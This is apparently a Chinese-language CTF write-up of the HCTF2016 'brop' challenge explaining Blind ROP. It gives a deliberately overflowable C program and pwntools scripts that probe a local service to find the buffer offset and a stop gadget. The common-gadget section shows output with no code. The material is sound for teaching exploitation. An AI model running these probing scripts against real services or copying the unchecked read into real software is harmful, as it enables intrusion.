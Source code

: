 ```yaml
---
layout: post
title: [blind rop]pwn HCTF2016 brop
excerpt: "HCTF2016 brop wirteup"
categories: [PWN writeup]
comments: true
---
```


在无源码无elf的情况下实现pwn

漏洞代码如下(攻击者无发看到)
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
int i;
int check();
int main(void){
	setbuf(stdin,NULL);
	setbuf(stdout,NULL);
	setbuf(stderr,NULL);
    puts("WelCome my friend,Do you know password?");
	if(!check()){
        puts("Do not dump my memory");
	}else {
        puts("No password, no game");
	}
}
int check(){
    char buf[50];
    read(STDIN_FILENO,buf,1024);
    return strcmp(buf,"aslvkm;asd;alsfm;aoeim;wnv;lasdnvdljasd;flk");
}
```
编译
```shell
gcc -z noexecstack -fno-stack-protector  brop.c
```
checksec
```python
python
>>> from pwn import *
>>> print ELF('a.out').checksec()
[*] '/root/sploitfun/brop/a.out'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
架起服务
```
ncat -vc ./a.out -kl 127.0.0.1 4000
```
#### BROP 原理及题目解析
BROP 即 Blind ROP，需要我们在无法获得二进制文件的情况下，通过 ROP 进行远程攻击，劫持该应用程序的控制流，可用于开启了 ASLR、NX 和栈 canary 的 64-bit Linux。

实现这一攻击有两个必要条件：

- 目标程序存在一个栈溢出漏洞，并且我们知道怎样去触发它
- 目标进程在崩溃后会立即重启，并且重启后进程被加载的地址不变，这样即使目标机器开启了 ASLR 也没有影响。

查看offset(竟然用这种方法)
```python
from pwn import *

def get_buffer_size():
    for i in range(100):
        payload = "A"
        payload += "A" * i
        buf_size = len(payload) - 1    #崩溃意味着我们覆盖到了返回地址，所以缓冲区应该是发送的字符数减一，即 buf(64)+ebp(8)=72
        try:
            p = remote('127.0.0.1', 4000)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size

get_buffer_size()
```
结果
```
[+] Opening connection to 127.0.0.1 on port 4000: Done
[*] Closed connection to 127.0.0.1 port 4000
[*] buffer size: 72
```
##### stop gadget

在寻找通用 gadget 之前，我们需要一个 stop gadget。一般情况下，当我们把返回地址覆盖后，程序有很大的几率会挂掉，因为所覆盖的地址可能并不是合法的，所以我们需要一个能够使程序正常返回的地址，称作 stop gadget，这一步至关重要。stop gadget 可能不止一个，这里我们之间返回找到的第一个好了：
```python
from pwn import *


def get_stop_addr(buf_size):
   addr = 0x400000
   while True:
      sleep(0.1)
      addr += 1
      payload = "A" * buf_size
      payload += p64(addr)
      try:
         p = remote('127.0.0.1', 4000)
         p.recvline()
         p.sendline(payload)
         p.recvline()
         p.close()
         log.info("stop address: 0x%x" % addr)
         return addr
      except EOFError as e:
         p.close()
         log.info("bad: 0x%x" % addr)
      except:
         log.info("Can't connect")
         addr -= 1

get_stop_addr(72)
```
最后结果
```
[*] Closed connection to 127.0.0.1 port 4000
[*] stop address: 0x400565
```
##### common gadget

有了 stop gadget，那些原本会导致程序崩溃的地址还是一样会导致崩溃，但那些正常返回的地址则会通过 stop gadget 进入被挂起的状态。下面我们就可以寻找其他可利用的 gadget，由于是 64 位程序，可以考虑使用通用 gadget


最后结果
```
[*] find address: 0x400567
[+] Opening connection to 127.0.0.1 on port 4000: Done
[*] Closed connection to 127.0.0.1 port 4000
[*] bad address: 0x400567
```
